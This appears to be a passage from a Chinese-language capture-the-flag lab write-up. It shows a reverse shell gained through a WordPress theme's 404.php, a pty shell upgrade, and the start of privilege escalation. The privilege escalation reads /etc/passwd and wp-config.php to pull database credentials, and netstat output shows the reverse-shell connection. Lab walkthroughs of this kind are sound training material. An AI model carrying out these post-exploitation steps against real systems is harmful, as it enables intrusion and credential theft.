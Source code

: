 找到路径，触发，即可得到反弹shell

```http
http://192.168.0.102/wp-content/themes/twentysixteen/404.php
```

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@webdeveloper:/$ whoami
whoami
www-data
```

# 提权

## 提权webdeveloper

1、查看用户信息

```bash
www-data@webdeveloper:/$ cat /etc/passwd | grep home | grep -v nologin
cat /etc/passwd | grep home
webdeveloper:x:1000:1000:WebDeveloper:/home/webdeveloper:/bin/bash
```

2、翻阅wp网站里的配置信息

```bash
www-data@webdeveloper:/var/www/html$ cat wp-config.php
```

发现数据库连接的账号密码

```bash
/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');
```

```
webdeveloper:MasterOfTheUniverse
```

3、查看当前网络连接情况，发现是 mysql 数据库

```bash
www-data@webdeveloper:/var/www/html$ netstat -anpt
netstat -anpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0    284 192.168.0.102:53934     192.168.0.103:1234      ESTABLISHED 25208/sh            
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 192.168.0.102:80        192.168.0.101:30887     ESTABLISHED -            
```
